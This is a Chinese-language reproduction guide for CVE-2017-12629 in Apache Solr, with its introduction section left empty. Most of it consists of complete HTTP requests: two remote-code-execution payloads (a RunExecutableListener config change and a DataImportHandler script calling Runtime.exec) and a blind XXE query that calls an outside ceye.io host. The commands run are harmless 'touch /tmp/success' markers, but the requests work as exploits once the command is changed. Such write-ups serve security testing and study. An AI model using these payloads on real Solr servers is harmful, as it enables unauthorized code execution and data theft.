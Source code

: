 （CVE-2017-12629）Apache Solr rce&xxe 漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

Redhat Single Sign-On 7.0+ Redhat Linux 6.2 E sparc+ Redhat Linux 6.2 E i386+ Redhat Linux 6.2 E alpha+ Redhat Linux 6.2 sparc+ Redhat Linux 6.2 i386+ Redhat Linux 6.2 alphaRedhat JBoss Portal Platform 6Redhat JBoss EAP 7 0Redhat Jboss EAP 6Redhat JBoss Data Grid 7.0.0Redhat Enterprise Linux 6+ Trustix Secure Enterprise Linux 2.0+ Trustix Secure Linux 2.2+ Trustix Secure Linux 2.1+ Trustix Secure Linux 2.0Redhat Collections for Red Hat Enterprise Linux 0Apache Solr 6.6.1Apache Solr 6.6Apache Solr 6.5.1Apache Solr 6.5Apache Solr 6.4Apache Solr 6.3Apache Solr 6.2Apache Solr 6.6Apache Solr 6.3Apache Solr 6.0Apache Lucene 0

三、复现过程
------------

### rce 姿势一

-   首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```{=html}
<!-- -->
```
    POST /solr/demo/config HTTP/1.1
    Host: 10.0.83.79:8983
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    Content-Length: 158

    {"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}

![](resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId25.png)

在solr管理界面新建了listen

![](resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId26.png)

-   然后进行update操作，触发刚才添加的listener：

```{=html}
<!-- -->
```
    POST /solr/demo/update HTTP/1.1
    Host: 10.0.83.79:8983
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 15

    [{"id":"test"}]

![](resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId27.png)

### rce 姿势二

![](resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId29.png)

如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

    <dataConfig>
      <dataSource type="URLDataSource"/>
      <script><![CDATA[
              function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
              }
      ]]></script>
      <document>
        <entity name="stackoverflow"
                url="https://stackoverflow.com/feeds/tag/solr"
                processor="XPathEntityProcessor"
                forEach="/feed"
                transformer="script:poc" />
      </document>
    </dataConfig>

点击`Execute with this Confuguration`会发送以下请求包：

payload(这里我直接填无法命令执行替换如下payload)

    POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
    Host: 10.0.83.79:8983
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: application/json, text/plain, */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-type: application/x-www-form-urlencoded
    X-Requested-With: XMLHttpRequest
    Content-Length: 679
    Connection: close
    Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

    command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

![](resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId30.png)

### xxe

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind
XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

    GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C%21DOCTYPE%20root%20%5B%0A%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A//xxe.rqe94e.ceye.io/%22%3E%0A%25remote%3B%5D%3E%0A%3Croot/%3E&wt=xml&defType=xmlparser HTTP/1.1
    Host: your-ip:8983
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

使用`ceye`

发送payload

![](resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId32.png)

ceye接收

![](resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId33.png)

参考链接
--------

> https://wh0ale.github.io/2019/08/26/Apache-Solr安全问题/
